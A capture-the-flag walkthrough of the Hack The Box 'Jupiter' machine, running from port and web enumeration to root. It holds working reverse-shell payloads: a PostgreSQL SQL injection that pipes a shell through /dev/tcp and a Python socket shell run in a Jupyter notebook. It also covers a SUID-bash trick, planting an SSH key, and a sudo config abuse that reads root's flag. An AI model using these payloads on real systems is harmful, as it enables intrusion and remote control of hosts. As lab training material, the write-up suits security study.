

# Jupiter

<p align="center"></p>

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Jupiter
- **Difficulty:** Medium
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>masscan</summary>

```
sudo masscan -p1-65535,U:1-65535 --rate=1000 -e tun0 10.10.11.216

Discovered open port 22/tcp on 10.10.11.216
Discovered open port 80/tcp on 10.10.11.216
```
</details>

<details>
<summary>nmap</summary>

```
nmap -sC -sV 10.10.11.216

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 ac:5b:be:79:2d:c9:7a:00:ed:9a:e6:2b:2d:0e:9b:32 (ECDSA)
|_  256 60:01:d7:db:92:7b:13:f0:ba:20:c6:c9:00:a7:1b:41 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://jupiter.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration

<details>
<summary>vhost</summary>

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -u http://jupiter.htb/

Found: kiosk.jupiter.htb Status: 200 [Size: 34390]
```
</details>

<details>
<summary>dir (<code>jupiter.htb</code>)</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://jupiter.htb/'

/img                  (Status: 301) [Size: 178] [--> http://jupiter.htb/img/]
/css                  (Status: 301) [Size: 178] [--> http://jupiter.htb/css/]
/js                   (Status: 301) [Size: 178] [--> http://jupiter.htb/js/]
/fonts                (Status: 301) [Size: 178] [--> http://jupiter.htb/fonts/]
/Source               (Status: 301) [Size: 178] [--> http://jupiter.htb/Source/]
/sass                 (Status: 301) [Size: 178] [--> http://jupiter.htb/sass/]
```
</details>

<details>
<summary>dir (<code>kiosk.jupiter.htb</code>)</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://kiosk.jupiter.htb/'

/login                (Status: 200) [Size: 34390]
/profile              (Status: 302) [Size: 29] [--> /login]
/signup               (Status: 200) [Size: 34390]
/public               (Status: 302) [Size: 31] [--> /public/]
/admin                (Status: 302) [Size: 24] [--> /]
/plugins              (Status: 302) [Size: 24] [--> /]
/live                 (Status: 302) [Size: 24] [--> /]
/org                  (Status: 302) [Size: 24] [--> /]
/logout               (Status: 302) [Size: 29] [--> /login]
/explore              (Status: 302) [Size: 24] [--> /]
/monitoring           (Status: 200) [Size: 34390]
/verify               (Status: 200) [Size: 34390]
/metrics              (Status: 200) [Size: 100948]
/configuration        (Status: 302) [Size: 24] [--> /]
/connections          (Status: 302) [Size: 24] [--> /]
/styleguide           (Status: 200) [Size: 34390]
/playlists            (Status: 200) [Size: 34390]
/alerting             (Status: 200) [Size: 34390]
```
</details>

## Foothold

### Web → `postgres-user`

#### Searching for Vulnerabilities

- when accessing the Grafana instance at `kiosk.jupiter.htb`, several POST requests are sent to the server (can be intercepted with burpsuite)
- the POST request to `/api/ds/query` contains the parameter `sqlRaw`
- `sqlmap -r request` shows that `sqlRaw` is injectable
    - DBMS appears to be **PostgreSQL > 8.1**
    - unfortunately the `--os-shell` is extremly slow and therefore unusable

#### Exploitation

1. Start a reverse shell listener using netcat:
   
    ```
    nc -lvnp 9002
    ```
2. We can perform the SQL injection manually by setting the `sqlRaw` parameter to the following value:

    ```
    COPY cmd_exec FROM PROGRAM 'bash -c \"/bin/sh -i >& /dev/tcp/<your ip>/9002 0>&1\"';
    ```
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#cve-20199193

3. We now have reverse shell access for user `postgres-user`!

## Lateral Movement

### `postgres-user` → `juno` 🚩

#### Searching for Vulnerabilities

- `/etc/passwd` indicates that there are two user accounts with a home directory:
    
    ```
    juno:x:1000:1000:juno:/home/juno:/bin/bash
    jovian:x:1001:1002:,,,:/home/jovian:/bin/bash
    ```
- `find / -user juno 2>/dev/null` will show that `juno` is the owner of the files in `/dev/shm/`
- `/dev/shm/network-simulation.yml` can be edited and contains commands that are run periodically

#### Exploitation

1. Edit `network-simulation.yml` so that a bash with SUID-bit set for `juno` will get created in `/tmp`:
    
    ```yaml
    server:
        network_node_id: 0
        processes:
        - path: /usr/bin/cp
        args: /bin/bash /tmp/bash
        start_time: 3s
    # three hosts with hostnames 'client1', 'client2', and 'client3'
    client:
        network_node_id: 0
        quantity: 3
        processes:
        - path: /usr/bin/chmod
        args: u+s /tmp/bash
        start_time: 5s
    ```
2. After a while `/tmp/bash` will get created. We can start a bash as `juno` by running `/tmp/bash -p`. Unfortunately `user.txt` cannot be accessed yet.
3. After adding my SSH public key in `/home/juno/.ssh/authorized_keys`, we can log in as `juno` via SSH and access the user flag! 🚩

### `juno` → `jovian`

#### Searching for Vulnerabilities

- `ss -tlp` shows that there are tcp ports `3000` and `8888` open locally
- By using the SSH port forwarding feature, we can scan these ports using nmap:

    ```
    ssh -L 3000:localhost:3000 juno@10.10.11.216
    ssh -L 8888:localhost:8888 juno@10.10.11.216    
    ```
    - <details>
        <summary>nmap output</summary>
        
        ```
        PORT     STATE SERVICE VERSION
        3000/tcp open  ppp?
        | fingerprint-strings:
        |   GenericLines, Help:
        |     HTTP/1.1 400 Bad Request
        |     Content-Type: text/plain; charset=utf-8
        |     Connection: close
        |     Request
        |   GetRequest:
        |     HTTP/1.0 200 OK
        |     Cache-Control: no-store
        |     Content-Type: text/html; charset=UTF-8
        |     X-Content-Type-Options: nosniff
        |     X-Frame-Options: deny
        |     X-Xss-Protection: 1; mode=block
        |     Date: Thu, 07 Sep 2023 11:30:48 GMT
        |     <!doctype html><html lang="en"><head><meta charset="utf-8"/><meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1"/><meta name="viewport" content="width=device-width"/><meta name="theme-color" content="#000"/><title>Grafana</title><base href="/"/><link rel="icon" type="image/png" href="public/img/fav32.png"/><link rel="apple-touch-icon" sizes="180x180" href="public/img/apple-touch-icon.png"/><link rel="mask-icon" href="public/img/grafana_mask_icon.svg" color="#F05A28"/><link rel="stylesheet" href="public/build/grafana.dark.922c73a268c5f56fe5fe.css"/><script nonce="">performance.mark('frontend_boot_css_time_seconds');</script><meta name="apple-mobile-web-app-capable" content=
        |   HTTPOptions:
        |     HTTP/1.0 404 Not Found
        |     Cache-Control: no-store
        |     Content-Type: text/html; charset=UTF-8
        |     X-Content-Type-Options: nosniff
        |     X-Frame-Options: deny
        |     X-Xss-Protection: 1; mode=block
        |     Date: Thu, 07 Sep 2023 11:30:53 GMT
        |_    <!doctype html><html lang="en"><head><meta charset="utf-8"/><meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1"/><meta name="viewport" content="width=device-width"/><meta name="theme-color" content="#000"/><title>Grafana</title><base href="/"/><link rel="icon" type="image/png" href="public/img/fav32.png"/><link rel="apple-touch-icon" sizes="180x180" href="public/img/apple-touch-icon.png"/><link rel="mask-icon" href="public/img/grafana_mask_icon.svg" color="#F05A28"/><link rel="stylesheet" href="public/build/grafana.dark.922c73a268c5f56fe5fe.css"/><script nonce="">performance.mark('frontend_boot_css_time_seconds');</script><meta name="apple-mobile-web-app-capable" c
        8888/tcp open  http    Tornado httpd 6.2
        | http-title: Jupyter Notebook
        |_Requested resource was /login?next=%2Ftree%3F
        |_http-server-header: TornadoServer/6.2
        | http-robots.txt: 1 disallowed entry
        |_/
        ```
        </details>

    - Port `3000` seems to be the Grafana instance
    - Port `8888` is a Jupyter notebook 

#### Exploitation

1. When opening the Jupyter webinteface under `localhost:8888`, a token must be entered, which can be found in `/opt/solar-flares/logs/jupyter-2023-09-07-15.log`.
    - Token: `ecae914aaaf6c419b40775ad51f07e7d3aece17a93e7104`
2. Start a reverse shell listener using netcat:
    
    ```
    nc -lvnp 9002
    ```
3. After entering the token, a new Jupyter notebook can be created and the payload for a reverse shell can be executed in a cell:
    
    ```python
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your ip>",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
    ```
4. We now have reverse shell access for `jovian`.


## Privilege Escalation

### `jovian` → `root` 🏁

#### Searching for Vulnerabilities

- `sudo -l` shows, that we can run `/usr/local/bin/sattrack` binary with sudo
- executing `/usr/local/bin/sattrack` gives an error message stating that a `/tmp/config.json` is required

#### Exploitation

1. A working configuration file can be found under `/usr/local/share/sattrack/config.json`, which can be copied to `/tmp/config.json`.
2. We can modify the configuration file `/tmp/config.json` so that the program outputs the root flag:
    
    ```json
    "tlesources": [
        "file:///root/root.txt",
    ],
    ```
3. After executing `sudo /usr/local/bin/sattrack`, we can find the root flag in `/tmp/tle/root.txt`! 🏁